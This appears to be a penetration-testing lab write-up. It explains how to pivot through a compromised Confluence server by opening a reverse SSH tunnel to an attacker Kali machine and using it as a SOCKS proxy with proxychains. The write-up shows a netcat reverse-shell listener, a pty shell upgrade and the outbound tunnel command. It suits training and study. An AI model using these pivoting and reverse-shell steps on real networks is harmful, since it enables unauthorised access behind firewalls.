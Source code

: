 1. We have `CONFLUENCE01` (`192.168.125.63`) but we can only talk to it on one port (`8090`).
2. We want to scan other machines on the internal network (like `MULTISERVER03` (`192.168.125.64`)), but the firewall won’t let our Kali machine directly access them.
3. From `CONFLUENCE01`, we SSH **outward** to our **Kali machine**.
4. We create a **SOCKS proxy on our Kali machine** that listens on a port (let's say `9998`).
5. Any traffic sent to this SOCKS proxy, will fly back through the SSH tunnel to `CONFLUENCE01`. Then `CONFLUENCE01` will forward it to the final destination inside its network.

{% tabs %}
{% tab title="1. SSH Server" %}
Start an SSH server on Kali.

```bash
$ sudo service ssh start
Starting OpenBSD Secure Shell server: sshd.

$ netstat -ntl | grep 22
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp6       0      0 :::22 
```
{% endtab %}

{% tab title="2. Tunnel" %}
sadasd

{% code overflow="wrap" %}
```bash
$ nc -lvnp 4444
...
confluence@confluence01:/opt/atlassian/confluence/bin$ python3 -c 'import pty;pty.spawn("/bin/sh")'
$ ssh -N -R 9998 x7331@192.168.45.235
```
{% endcode %}
{% endtab %}

{% tab title="3. Proxychains" %}
{% code overflow="wrap" %}
```bash
$ tail -n1 /etc/proxychains4.conf
socks5 127.0.0.1 9998
```
{% endcode %}
{% endtab %}

{% tab title="3. Confirm" %}
This creates a tunnel where connections to `127.0.0.1:9998` on Kali are forwarded to whichever destination we define on our command via the SSH connection from `CONFLUENCE01`.

```bash
$ sudo netstat -antl | grep 9998
[sudo] password for x7331:
tcp        0      0 127.0.0.1:9998          0.0.0.0:*               LISTEN
tcp6       0      0 ::1:9998                :::*                    LISTEN
```
{% endtab %}
